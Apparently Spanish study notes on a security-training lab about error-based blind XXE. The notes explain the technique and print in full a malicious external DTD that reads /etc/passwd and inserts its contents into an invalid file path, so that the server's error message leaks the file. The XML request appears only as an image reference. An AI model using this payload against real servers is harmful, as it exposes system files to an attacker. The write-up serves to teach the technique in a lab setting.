En esta clase abordamos una variante de XXE ciega que se apoya en mensajes de error para filtrar información sensible. Continuamos aprovechando el sistema de entidades parametrizadas, pero en lugar de usar canales externos como Collaborator, utilizamos rutas inválidas para provocar errores intencionados que revelen el contenido del archivo /etc/passwd.

Preparamos una DTD maliciosa en nuestro exploit server que lee ese archivo y lo introduce como parte de una ruta errónea. Al invocar esa DTD desde el XML enviado al endpoint vulnerable, el servidor intenta acceder a una ruta inválida que incluye el contenido del archivo, lo que provoca un error con el texto completo de la entidad.

Analizamos cómo estructurar correctamente tanto la DTD como el XML final y validamos el resultado observando la aparición del archivo dentro del mensaje de error devuelto. Esta técnica demuestra cómo aprovechar los errores internos del servidor como canal de exfiltración en ataques ciegos.

Solucion
Lo que se realizo como el anterior laboratorio fue poner esto en nuestro exploit server
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;

y lo que pusimos en el BS fue esto sin modificar nada dentro del xml
![[Pasted image 20250730203420.png]]

